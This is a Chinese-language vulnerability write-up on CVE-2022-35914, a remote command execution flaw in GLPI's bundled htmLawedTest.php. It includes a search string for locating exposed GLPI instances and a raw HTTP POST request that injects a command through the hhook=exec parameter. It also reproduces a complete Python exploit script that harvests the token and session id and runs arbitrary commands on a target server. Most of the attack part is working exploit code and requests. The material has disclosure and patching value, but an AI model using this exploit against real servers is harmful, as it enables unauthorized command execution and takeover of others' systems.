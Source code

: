 # 

# GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中的 `/vendor/htmlawed/htmlawed/htmLawedTest.php` 允许 PHP 代码注入。

## 漏洞影响

```
GLPI 10.0.2及之前版本
```

## 网络测绘

```
title="GLPI"
```

## 漏洞复现

登录页面

![image-20221017171204621](./images/202210171712679.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware

![image-20221017171224096](./images/202210171712160.png)

```
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![image-20221017171243880](./images/202210171712972.png)

跟进文件 htmLawed.php 中

![image-20221017171259491](./images/202210171712583.png)

```
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![image-20221017171318915](./images/202210171713976.png)

验证POC

```
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![image-20221017171343438](./images/202210171713502.png)

![image-20221017171358385](./images/202210171713454.png)

访问页面获取到 sid 与 token 后再发送请求包

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![image-20221017171416286](./images/202210171714358.png)

## 漏洞POC

- https://github.com/cosad3s/CVE-2022-35914-poc

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
from bs4 import BeautifulSoup
import requests
import sys
import re

requests.packages.urllib3.disable_warnings() 

RED = '\x1b[91m'
BLUE = '\033[94m'
GREEN = '\033[32m'
ENDC = '\033[0m'

banner="""  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  
"""

def main():
    print(banner)
    parser = argparse.ArgumentParser(description='CVE-2022-35914 - GLPI - Command injection using a third-party library script')
    parser.add_argument('-u', type=str, required=True, dest='url', help = "URL to test")
    parser.add_argument('-c', type=str, required=False, dest='cmd', default = "id", help = "Command to launch (default: id)")
    parser.add_argument('-f', type=str, required=False, dest='hook', default = "exec", help = "PHP hook function (default: exec)")
    parser.add_argument('--check', action="store_true", dest='check', help = "Just check, no command execution.")
    parser.add_argument('--user-agent', type=str, required=False, default="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36", dest='user_agent', help = "Custom User-Agent")
    args = parser.parse_args()
    exploit(args.url, args.cmd, args.user_agent,args.check,args.hook)

def exploit(url,cmd,user_agent,check,hook):
    uri = "/vendor/htmlawed/htmlawed/htmLawedTest.php"
    headers = {'User-Agent': user_agent}

    session = requests.Session()
    response_part1 = session.get(str(url)+uri, verify=False, headers=headers)
    if (response_part1.status_code != 200):
        fail()
    
    soup = BeautifulSoup(response_part1.text, 'html.parser')
    if (soup.title.text.find("htmLawed") == -1):
        fail()

    if (check):
        print(GREEN + "[+] Server potentially vulnerable to CVE-2022-35914" + ENDC)
        sys.exit()

    # Prepare POST request
    token_value = soup.find_all(id='token')[0]['value']
    sid_value = session.cookies.get("sid")
    body = {"token":token_value,"text":cmd,"hhook":hook,"sid":sid_value}
    response_part2 = session.post(str(url)+uri, verify=False, headers=headers, data=body)
    parse(response_part2.text)

def parse(response):
    soup = BeautifulSoup(response, 'html.parser')
    raw = soup.find_all(id='settingF')[0]

    return_code_search_regex = "\$spec\: (.*)"
    found_return_code = re.search(return_code_search_regex, raw.text, re.DOTALL).group(1)

    output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
    found_output = re.search(output_search_regex, raw.text, re.DOTALL)
    print(GREEN + "[+] Command output (Return code: " + found_return_code + "):" + ENDC)
    if (found_output != None):
        raw_output = found_output.group(1)
        cleaning_regex = ".*\=\>"
        cleaned_output = re.sub (cleaning_regex, "", raw_output)
        print(cleaned_output)

def fail():
    print(RED + "[-] Server not vulnerable to CVE-2022-35914" + ENDC)
    sys.exit()

if __name__ == '__main__':
    main()
```


